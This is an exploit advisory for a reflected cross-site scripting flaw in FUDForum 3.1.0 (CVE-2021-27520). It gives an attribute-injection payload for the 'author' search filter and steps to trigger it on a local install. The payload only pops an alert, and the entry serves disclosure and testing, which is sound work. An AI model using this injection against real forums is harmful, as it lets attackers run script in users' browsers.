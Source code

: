     # Exploit Title: FUDForum 3.1.0 - 'author' Reflected XSS
    # Exploit Author: Piyush Patil
    # Vendor Homepage: http://fudforum.org/
    # Software Link: https://sourceforge.net/projects/fudforum/files/FUDforum_3.1.0.zip/download
    # Version: FUDForum 3.1.0
    # Tested on: Windows 10 and Kali
    # CVE : CVE-2021-27520

    -Description:
    A cross-site scripting (XSS) issue in FUDForum 3.1.0 allows remote attackers to inject JavaScript via index.php in the "author" parameter.


    -Payload used:
    y" onmouseover=alert(2) y="

    -Steps to reproduce:
    1- goto https://localhost/fudforum/index.php?t=search&
    2- In the "Filter by User" search option, paste XSS payload
    3- Hover your mouse to "y" and XSS will get triggered